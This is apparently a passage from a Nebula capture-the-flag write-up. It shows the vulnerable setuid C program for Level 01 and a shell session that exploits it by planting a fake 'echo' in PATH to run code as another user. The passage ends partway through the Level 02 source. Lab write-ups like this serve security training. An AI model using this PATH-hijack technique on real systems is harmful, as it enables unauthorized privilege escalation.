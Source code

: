 ## Level 01

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

So let's see about this vulnerability. It doesn't accept user input, but luckily there's only one place where it actually runs anything, so that makes it easier to narrow down where its weakness is. The `system` call executes an `echo` but there's a small oversight. It calls `echo` without an explicit path, can you see where this is going? As `flag01` runs as user `flag01`, anything it executes will also run under that user.

```sourceCode
level01@nebula:/home/flag01$ mkdir /tmp/mybin
level01@nebula:/home/flag01$ cd /tmp/mybin
level01@nebula:/tmp/mybin$ which getflag
/bin/getflag
level01@nebula:/tmp/mybin$ cp /bin/getflag echo
level01@nebula:/tmp/mybin$ cd ~flag01
level01@nebula:/home/flag01$ export PATH=/tmp/mybin:${PATH}
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account
```

## Level 02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();
```